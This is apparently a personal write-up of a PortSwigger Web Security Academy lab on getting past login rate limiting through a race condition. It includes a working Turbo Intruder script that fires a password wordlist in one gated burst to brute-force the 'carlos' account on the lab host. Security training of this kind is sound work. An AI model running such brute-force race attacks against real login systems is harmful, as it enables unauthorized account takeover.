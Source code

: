 # Lab: Bypassing rate limits via race conditions

Description: This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.

End goal : exploit race condition to bypass the rate limit and loign as `carlos`

Analysis:

- after couple of trials we get a block that prevent us from  brute forcing the password
- copy and pasting words from the wordlist is tedious -> instead use turpo intruder extension
- it might take couple of trials to successfully resolve the lab
- don't forget to use the `%s` place holder

```python
# Template used to do single packet attack
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint="https://0a4c006104bab8d08210885c00dc0088.web-security-academy.net/login",
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )


    for word in open('/home/dedoxd2/Desktop/machines/machines/portswigger/race_cond/lab2/password_list.txt'):
        engine.queue(target.req, word.rstrip(),gate='1')

    engine.openGate('1')


def handleResponse(req, interesting):
   # if "302 Found" in req.response:
        table.add(req)

```

More details about Trupo intruder extension :
<https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack>
